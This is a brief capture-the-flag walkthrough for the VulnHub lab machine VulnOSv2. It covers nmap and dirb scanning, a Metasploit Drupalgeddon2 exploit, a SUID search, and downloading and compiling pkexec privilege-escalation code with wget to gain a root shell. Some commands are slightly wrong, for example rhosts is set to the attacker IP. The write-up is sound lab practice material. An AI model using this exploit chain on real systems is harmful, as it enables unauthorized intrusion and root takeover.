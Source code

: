 

# VulnOSv2 Walkthrough 

**VulnHub Link:** [VulnOSv2](https://www.vulnhub.com/entry/vulnos-2,147/)
**Difficulty:** Easy
**Release Date:** 17 May 2016

## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.178
```


## 2.Web Enumeration

```bash
dirb http://192.168.100.178
```

we found out that drupal run in web

```bash
msfconsole -q
use unix/webapp/drupal_drupalgeddon2
set rhosts <attack machine ip>
set TARGETURI /jabc/
run
```

www-data session opened


find / -perm /4000 2>/dev/null

observe that pkexec vuln exist in this machine


```bash
wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/VulnOSv2/exploit.c
wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/VulnOSv2/evil-so.c
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit
./evil.so
./exploit
```

BINGO !!! Root shell gained..!
